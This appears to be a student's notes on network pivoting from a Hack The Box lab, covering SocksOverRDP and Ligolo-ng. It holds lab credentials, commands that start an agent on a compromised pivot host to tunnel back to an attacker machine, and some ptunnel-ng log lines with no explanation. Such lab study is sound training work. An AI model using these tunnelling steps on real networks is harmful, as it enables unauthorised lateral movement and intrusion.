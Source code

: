 Some times we may be limited to windows network and not able to use SSH for pivoting. In this case we have to use tools available on windows os.

[SocksOverRDP](https://github.com/nccgroup/SocksOverRDP) is an example of a tool that uses `Dynamic Virtual Channels` (`DVC`) from the Remote Desktop Service feature of Windows
We will use proxifier as out proxy server.

Tools needed

1. [SocksOverRDP x64 Binaries](https://github.com/nccgroup/SocksOverRDP/releases)
2. [Proxifier Portable Binary](https://www.proxifier.com/download/#win-tab)

Transfer this to pivot windows.

### **Loading SocksOverRDP.dll using regsvr32.exe**

```bash
C:\Users\htb-student\Desktop\SocksOverRDP-x64> regsvr32.exe SocksOverRDP-Plugin.dll
```

Now we can connect to 172.16.5.19 over RDP using `mstsc.exe`, and we should receive a prompt that the SocksOverRDP plugin is enabled, and it will listen on 127.0.0.1:1080. We can use the credentials `victor:pass@123` to connect to 172.16.5.19.

We will need to transfer SocksOverRDPx64.zip or just the SocksOverRDP-Server.exe to 172.16.5.19. We can then start SocksOverRDP-Server.exe with Admin privileges.

# `/// [https://academy.hackthebox.com/module/158/section/1439](https://academy.hackthebox.com/module/158/section/1439)`

# Ligolo

[https://github.com/nicocha30/ligolo-ng](https://github.com/nicocha30/ligolo-ng)

From Release section we need agent and proxy.

`agent` folder in the pivot machine

`proxy` on the attacker.

In attacker, create a tunnel interface

- `sudo ip tuntap add user [your_username] mode tun ligolo`
- `sudo ip link set ligolo up`

On attacker machine, lets run proxy

- `./proxy -selfcert`

In pivot machine, lets run agent.exe

- `./agent.exe -connect  kali_linux_ip:11601 -ignore-cert`
    
    port `11601` is by default set on proxy in the attacker machine
    
    we should use `-autocert` flag when the pivot machine has internet access. This is more secure than `-ignore-cert` 
    

[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.